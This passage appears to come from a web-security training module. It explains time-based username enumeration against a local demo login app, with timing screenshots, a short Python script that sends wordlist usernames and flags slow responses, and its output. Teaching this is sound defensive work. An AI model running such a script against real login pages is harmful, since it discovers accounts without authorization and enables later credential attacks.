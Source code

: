 To confirm our vulnerability, let us compare the response time for a valid and an invalid username. We will start with our known valid username, resulting in a response time of `187ms`:

![image](ypQP0fAPDy4x.png)

However, an invalid username results in a response time of only `3ms`:

![image](hz5b2lyR62RH.png)

This confirms the possibility of time-based user enumeration. Keep in mind that over the public internet, the response timing will naturally be less stable, and fluctuations in the response time are to be expected.

* * *

## Enumerating Users

To enumerate existing users in the actual web application, we can use [this](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames-dup.txt) wordlist and write a small script:

```python
import requests

URL = "http://127.0.0.1:5000/login"
WORDLIST = "./xato-net-10-million-usernames-dup.txt"
THRESHOLD_S = 0.15

with open(WORDLIST, 'r') as f:
    for username in f:
        username = username.strip()

        r = requests.post(URL, data={"username": username, "password": "invalid"})

        if r.elapsed.total_seconds() > THRESHOLD_S:
            print(f"Valid Username found: {username}")

```

This is only a base template for an exploit script. We must adjust the threshold to an appropriate value for the individual web application. Furthermore, the format of the POST body might be different, and we might also need to implement logic to extract CSRF tokens to add to the login request. However, in our simple example web application, the above script suffices. Running it for a while reveals a valid username:

```shell
python3 solver.py

Valid Username found: egbert

```

Time-based user enumeration vulnerabilities can arise whenever the web application executes specific actions only for valid users and returns early for invalid users. This results in a measurable difference in the response timing, which can be used to detect whether the provided username was valid. Thus, we should analyze all functions that act based on a username we provide, not just the login process.
